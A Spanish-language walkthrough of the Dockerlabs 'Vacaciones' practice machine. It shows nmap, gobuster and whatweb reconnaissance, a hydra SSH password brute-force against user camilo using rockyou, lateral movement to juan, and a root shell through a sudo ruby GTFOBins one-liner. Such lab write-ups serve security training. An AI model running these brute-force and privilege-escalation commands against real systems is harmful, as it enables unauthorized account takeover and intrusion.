

# Writeup de la Máquina Vacaciones de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap. Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts del fichero donde se ha guardado el escaneo de nmap. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
```bash
extractPorts allPorts
```


Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 22 y 80 con nmap. 

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```


Una vez terminado el escaneo veo que la version del servicio ssh es antigua, así que busco si hay alguna vulnerbilidad para esta versión con la utilidad searchsploit. Probe con algunos exploits que se listaban pero no obtuve resultados.

```bash
searchsploit OpenSSH 7.6
```


Visto que con los scripts no sacaba ningún usuario, procedo a investigar el puerto 80 de la máquina y lo primero que realizo es utilizar la herramienta whatweb, para listar las tecnologías utilizadas.

```bash
whatweb http://172.17.0.2
```


Viendo que no consigo sacar mucho con whatweb procedo a mirar desde el navegador, en este me encuentro una página en blanco, así que decido ver el código fuente y encuentro un mensaje oculto.


Por si acaso realizo un directory listing por si hay algun archivo más, pero este no fue el caso.

```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,sh,js,txt
```


Viendo que no encuentro nada más decido utilizar fuerza bruta contra el servicio ssh con los nombres que se mencionaban en el mensaje del código fuente. Para realizar la fuerza bruta utilizo la herramienta hydra.

```bash
hydra -l camilo -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://172.17.0.2
```


Con el usuario camilo ha encontrado una contraseña, así que me conecto por ssh con estas credenciales.

```bash
ssh camilo@172.17.0.2
```


Una vez dentro reviso los correos, ya que en el mensaje decia que le había enviado un correo importante. Dentro de este encuentro una contraseña.

```bash
su juan
```


Hago un movimiento lateral ahora accediendo como juan, con esta cuenta reviso los permiso de sudoers y veo que puede ejecutar como root ruby.

```bash
sudo -l
```



Para escalar privilegios miro en la página GTFobins como hacerlo con ruby y de esta manera consigo escalar privilegios y completar la máquina.

```bash
sudo ruby -e 'exec "/bin/sh"'
```


